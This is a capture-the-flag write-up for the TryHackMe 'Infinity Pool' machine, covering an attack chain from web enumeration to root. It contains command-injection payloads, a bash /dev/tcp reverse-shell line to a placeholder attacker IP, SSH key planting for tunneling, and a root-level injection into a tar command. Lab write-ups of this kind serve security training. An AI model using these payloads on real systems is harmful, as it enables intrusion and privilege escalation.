# 9 — Infinity Pool

**Platform:** Tryhackme
**Category:** Boot2Root
**Difficulty:** Medium

---

## 1. Enumeration

We start with a webpage:



I did a normal Nmpap scan for open ports and services check:

```bash
sudo nmap -Pn -sV -sC -p- 10.48.140.10
```

I also did gobuster directory enumeration but couldn't find anything useful.



```bash
gobuster dir -u http://10.48.140.108 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x html,css,js,txt,xml
```



One of the interesting files I found was `robots.txt` which have disallowed entries:



Since `robots.txt` is not an access-control mechanism, I manually checked the interesting paths.

I also found `/internal/netcheck` referenced in the application's JavaScript.



It say that the `/status` page currently uses an old backend endpoint `/internal/netcheck`. Until the new authentication gateway is ready, restrictions are off.



This looks like a network diagnostic tool which accepts an IP address and appears to run a `ping` command against it, displaying the raw output.



So I simply searched `network diagnostic tool exploits` on google and got this:

Command Injection: Web interfaces that execute system binaries (like ping.cgi or traceroute.cgi) via parameters that append malicious shell operators (;, &, or |).

---

## 2. Command Injection

I simply tested with a simple parameter to test if it have the vulnerability or not.

```text
127.0.0.1;ls
```

The response:



This confirmed **OS command injection**.

### Getting a shell

I added a reverse shell command before the IP address and started a Netcat listener on my attack machine:

```text
127.0.0.1;bash -c 'bash -i >& /dev/tcp/ATTACKER IP/4444 0>&1'
```

```bash
nc -lvnp 4444
```



The reverse shell connected successfully.

---

## 3. Getting the User Flag

Once I had a shell, I searched for the user flag:

```bash
find / -type f -name user.txt 2>/dev/null
```

```bash
cat /home/web/user.txt
```



This gave me the **user flag**.

After that, I started looking for a privilege-escalation path.

---

## 4. Enumerating Internal Services

While enumerating, I found another user beside mine:



So i though of checking some processes which might help us.

```bash
ps auxww | grep watchtower
```

The interesting processes were:

```text
svc-watchtower ... /var/www/infinity_pool/watchtower/venv/bin/python3
/var/www/infinity_pool/watchtower/venv/bin/gunicorn
--workers 1
--bind 127.0.0.1:3000
wsgi:app
```



The important observation was:

```text
127.0.0.1:3000
```

The service was only listening locally, so it wasn't directly accessible from my machine.

However, I already had a shell on the target, so I tested it locally:

```bash
curl http://127.0.0.1:3000/
```



I found some interesting endpoints here:

```text
/api/health
/api/conmfig
```

So I checked the endpoints:

```bash
curl http://127.0.0.1:3000/api/health
curl http://127.0.0.1:3000/api/config
```





This returned a configuration information which gave me the credentials for the internal **FreePBX UCP** service.

```json
{
  "automation_endpoint": "http://127.0.0.1:9000",
  "note": "internal network only - do not expose",
  "ops_note": "UCP still on default template creds (FreePBXUCPTemplateCreator) -- ROTATE.",
  "telephony_pass": "............",
  "telephony_portal": "http://127.0.0.1:8080/ucp",
  "telephony_user": "FreePBXUCPTemplateCreator"
}
```

---

## 5. Accessing FreePBX UCP

The FreePBX service was also bound to localhost:

```text
127.0.0.1:8080
```

So what I needed was to tunnel the port through SSH, so I can access the FreePBX service on my browser.

First, I generated an SSH key:

```bash
ssh-keygen -t rsa -b 2048 -f infinity_pool_key -N ""
```



Then I encoded the public key, can will be accepted by the authorized_keys folder:

```bash
base64 -w0 infinity_pool_key.pub
```



I added the public key to the `web` user's authorized keys:

```bash
mkdir -p /home/web/.ssh
echo 'BASE64_STRING' | base64 -d > /home/web/.ssh/authorized_keys
chmod 700 /home/web/.ssh
chmod 600 /home/web/.ssh/authorized_keys
```

I could then create the SSH tunnel:

```bash
ssh -i infinity_pool_key -L 8080:127.0.0.1:8080 web@<TARGET_IP>
```



Now the target's internal port 8080 was available through:

```text
http://127.0.0.1:8080/ucp/
```

It opened the FreePBX Login Page.



Using the credentials obtained from `/api/config`, I got access to the User Control Panel.


---

## 6. Finding the Automation Key

The FreePBX dashboard looked mostly empty.

So I created a dashboard and explored the available widgets.

I found a voicemail entry and a **Automation Key** inside a FreePBXUCPTemplateCreator widget.



This was an important clue because the earlier `/api/config` response had revealed:

```text
automation_endpoint: http://127.0.0.1:9000
```

So I now had both:

- The Automation service
- The authentication key required to access it

---

## 7. Enumerating the Automation Service

Back on the target, I checked the service:

```bash
curl -s http://127.0.0.1:9000/
```

There were nothing, so i changed the directories and eventually got this:

```bash
curl -s http://127.0.0.1:9000/health
```



The response was extremely useful.

It documented an authenticated endpoint:

```json
{
  "endpoints": {
    "GET /health": "service status",
    "POST /jobs/export": {
      "auth": "Authorization: Bearer <automation key>",
      "body": {
        "report": "<report name>"
      },
      "desc": "archive the latest data export"
    }
  },
  "runs_as": "root",
  "service": "automation",
  "status": "ok"
}
```

The most important piece was `"runs_as": "root"` which tells us the service is running with **root privileges**.

---

## 8. Command Injection in `/jobs/export`

I first sent a normal request:

```bash
KEY='AUTOMATION_KEY'

curl -s -X POST -H "Authorization: Bearer $KEY" -H "Content-Type: application/json" http://127.0.0.1:9000/jobs/export -d '{"report":"test"}'
```

The response showed the command constructed by the application:



This immediately stood out.

The user-controlled `report` value was being inserted directly into a shell command without proper quoting or validation.

Conceptually, the application was doing something like:

```text
tar czf /var/automation/exports/<USER INPUT>.tgz /var/automation/data
```

Therefore, shell metacharacters could alter the command.

---

## 9. Command Injection as Root

I tested command injection by manipulating the `report` parameter.

For example:

```bash
curl -s -X POST -H "Authorization: Bearer $KEY" -H "Content-Type: application/json" http://127.0.0.1:9000/jobs/export -d '{"report":"test; cat /root/root.txt;"}'
```

The resulting command became:

```text
tar czf /var/automation/exports/test; cat /root/root.txt;.tgz /var/automation/data
```

The API response contained the output from the injected command:

```text
root flag
/bin/sh: 1: .tgz: not found
tar: Cowardly refusing to create an empty archive
```

The important part was:

```text
root flag
```



The command was executed by the root-owned automation service, giving me **root-level command execution**.

This completed the privilege escalation and I obtained the root flag.

---

## 10. Exploitation Chain

The challenge was essentially a chain of trust between several internal components:

```text
                 Web Application
                        |
                        v
              /internal/netcheck
                        |
                 Command Injection
                        |
                        v
                 Reverse Shell
                   (web user)
                        |
                        v
               Watchtower :3000
                        |
                   /api/config
                        |
                        v
                FreePBX Credentials
                        |
                        v
                SSH Port Forwarding
                        |
                        v
                 FreePBX UCP :8080
                        |
                  Voicemail Widget
                        |
                        v
                 Automation Key
                        |
                        v
              Automation Service :9000
                        |
                    /jobs/export
                        |
                 Command Injection
                        |
                        v
                   Root Execution
                        |
                        v
                    root.txt
```

---

## 11. Key Vulnerabilities

### Command Injection — `/internal/netcheck`

The `host` parameter was passed into a system command without proper validation.

```text
host=127.0.0.1;ls
```

This resulted in arbitrary command execution.

### Sensitive Information Disclosure — Watchtower

The internal Watchtower API exposed:

- FreePBX username
- FreePBX password
- Internal service locations
- Automation endpoint information

through:

```text
/api/config
```

### Default Credentials — FreePBX

The configuration indicated that the FreePBX UCP account was still using template credentials:

```text
FreePBXUCPTemplateCreator
```

This allowed access to the internal UCP service.

### Sensitive Secret in Voicemail

The FreePBX interface exposed the Automation Key through a voicemail entry.

This demonstrates why secrets should not be placed in user-accessible application data.

### Root-Level Command Injection — Automation

The automation service constructed a shell command using the attacker-controlled `report` value:

```text
tar czf /var/automation/exports/<report>.tgz ...
```

Because the service ran as:

```text
root
```

the command injection resulted in root-level code execution.

---

## 12. Final Takeaways

The most important lesson from this machine was **not to stop after obtaining the first shell**.

The initial command injection only gave me access as the `web` user. The actual privilege escalation required following the internal trust relationships:

> **Web → Watchtower → FreePBX → Automation → Root**

The services listening on `127.0.0.1` weren't inaccessible after obtaining a shell on the target. They became valuable attack surfaces for internal enumeration.

The biggest clues were:

```text
127.0.0.1:3000
127.0.0.1:8080
127.0.0.1:9000
```

and especially:

```text
"runs_as": "root"
```

in the Automation service.

### Complete Attack Chain

```text
Directory Enumeration
        ↓
/internal/netcheck
        ↓
OS Command Injection
        ↓
Reverse Shell
        ↓
Watchtower API
        ↓
FreePBX Credentials
        ↓
SSH Tunneling
        ↓
FreePBX UCP
        ↓
Automation Key
        ↓
/jobs/export
        ↓
Command Injection
        ↓
Root
```

This was a good example of how **multiple individually small security mistakes can be chained together into complete system compromise**.
